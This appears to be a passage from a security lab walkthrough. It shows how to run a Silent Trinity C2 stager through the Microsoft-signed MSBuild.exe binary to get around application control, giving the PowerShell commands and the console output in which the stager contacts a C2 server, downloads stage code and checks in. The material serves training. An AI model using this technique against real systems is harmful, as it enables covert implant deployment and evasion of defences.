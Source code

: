 ![][Div2]

### Execution of MSBuild Stager
Under the context of an environment where application control is in effect the MSBuild.exe binary can be useful. While this lab environment does not restrict application execution in this manner, this lab section will demonstrate malware stager executed using Microsoft-Signed MSBuild. 

Next, in Powershell, run the following command to execute the stager for Silent Trinity with the trusted MSBuild binary.

![PowershellInput][PowerShellInput]
```powershell
cd c:\Windows\Microsoft.NET\Framework64\v4.0.30319\
.\MSBuild.exe c:\Users\itadmin\Downloads\stager.xml

     (Note if the above fails, try:)

.\MSBuild.exe c:\Users\itadmin.labs\Downloads\stager.xml

```

![PowershellOutput][PowerShellOutput]

```powershell
C:\Users\taadmin.labs>
C:\Users\taadmin.labs> cd c:\Windows\Microsoft.NET\Framework64\v4.0.30319\

c:\Windows\Microsoft.NET\Framework64\v4.0.30319>MSBuild.exe c:\Users\taadmin.labs\Downloads\stager.xml
Microsoft (R) Build Engine version 4.8.3752.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 3/16/2020 6:58:05 PM.
[+] URLS: https://10.10.98.20:4444
[*] Attempting HTTP POST to https://10.10.98.20:4444/521a336b-e199-4bff-a81a-2207f37d79b2
[-] Attempt #1
[*] Attempting HTTP GET to https://10.10.98.20:4444/521a336b-e199-4bff-a81a-2207f37d79b2
[-] Attempt #1
[*] Downloaded 569104 bytes
        [-] 'Boo.Lang.Compiler.dll' was required...
        [+] 'Boo.Lang.Compiler.dll' loaded...
        [-] 'Boo.Lang.dll' was required...
        [+] 'Boo.Lang.dll' loaded...

[*] Compiling Stage Code
        [-] 'Boo.Lang.Extensions.dll' was required...
        [+] 'Boo.Lang.Extensions.dll' loaded...
        [-] 'Boo.Lang.Parser.dll' was required...
        [+] 'Boo.Lang.Parser.dll' loaded...
        [-] 'Microsoft.VisualBasic.Devices.dll' was required...
[+] Compilation Successful!
[*] Executing
z8DiGrOcG3 CheckIn
```


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/